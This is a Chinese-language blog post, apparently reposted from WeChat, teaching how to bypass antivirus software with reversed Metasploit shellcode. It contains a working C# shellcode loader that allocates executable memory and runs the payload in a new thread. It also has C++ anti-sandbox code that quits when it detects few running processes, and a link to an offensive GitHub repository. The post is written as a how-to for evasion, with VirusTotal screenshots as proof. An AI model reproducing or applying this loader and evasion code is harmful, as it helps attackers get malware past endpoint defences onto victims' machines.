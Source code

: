 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Mx-K4Y0CRfqManzXN3tzag)

本文将介绍利用反转 shellcode 的方法来绕过杀软。我们先来生成一个简单的 msf 的载荷看看：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WBYyxT7PhxU1L9S0zzSXt0jp4ELw6P02hBvLarTalspM0MPU4X5ceazRcyYt6azZHZKCR74WK6hA/640?wx_fmt=png)

查看 VT 情况：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WBYyxT7PhxU1L9S0zzSXt0SVnzkrDYFLaibZS4jgWDFxDcACy0XneRY8f7lh3q38htpAic7sTRiac2g/640?wx_fmt=png)

下面我们来用 Csharp 写一个基本的加载器，代码如下：

```
using System;
using System.Runtime.InteropServices;

class Program
{


     [DllImport("kernel32")]
    private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);


     [DllImport("kernel32")]
    private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

     [DllImport("kernel32")]
    private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    private static UInt32 MEM_COMMIT = 0x1000;
    private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;


    static void Main()
    {
        IntPtr threatHandle = IntPtr.Zero;
        UInt32 threadId = 0;
        IntPtr parameter = IntPtr.Zero;


       byte[] shellcode = new byte[1] { 0xfc };

        UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);
        threatHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);
        WaitForSingleObject(threatHandle, 0xFFFFFFFF);

        return;
    }
}
```

即利用 P/Invoke 来调用 win32 api。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WBYyxT7PhxU1L9S0zzSXt0pLPy7R9V2lNcib4CLaVtQxyRibWZfl7YKUtttU7icCDzLYerd9aNzicPIg/640?wx_fmt=png)

VT 情况：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WBYyxT7PhxU1L9S0zzSXt0mkNpNvFH4ZImQYppt2qZSbpBM7Iqmc3VE8eUaJNN21QXmY3F0ouZMQ/640?wx_fmt=png)

然后我们将 shellcode 进行反转，再进行加载：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WBYyxT7PhxU1L9S0zzSXt0T33PImxDNYbp1L8SLWDKgwhk0aZsdy21odibv5NIjpiakdnLOFApo2KA/640?wx_fmt=png)

顺便加点反沙箱，比如判断个沙箱进程数目，C++demo 如下：

```
void AntiSimulation()
{
  HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot)
  {
    return;
  }
  PROCESSENTRY32 pe = { sizeof(pe) };
  int procnum = 0;
  for (BOOL ret = Process32First(hSnapshot, &pe); ret; ret = Process32Next(hSnapshot, &pe))
  {
    procnum++;
  }
  if (procnum <= 40)  //判断当前进程是否低于40个，目前见过能模拟最多进程的是WD能模拟39个
  {
    exit(1);
  }
}
```

这个就见仁见智，自己加入就好了。看下效果：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WBYyxT7PhxU1L9S0zzSXt0VoDtWLyv84aZ3iajhy5mPgNqXRYqXrMyeQB0S45cqSEib6IhGYDXDosQ/640?wx_fmt=png)

最后的代码已传至 Github(去除了反沙箱)：https://github.com/lengjibo/OffenSiveCSharp/tree/master/bypassAV8

     ▼

更多精彩推荐，请关注我们

▼

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08XZjHeWkA6jN4ScHYyWRlpHPPgib1gYwMYGnDWRCQLbibiabBTc7Nch96m7jwN4PO4178phshVicWjiaeA/640?wx_fmt=png)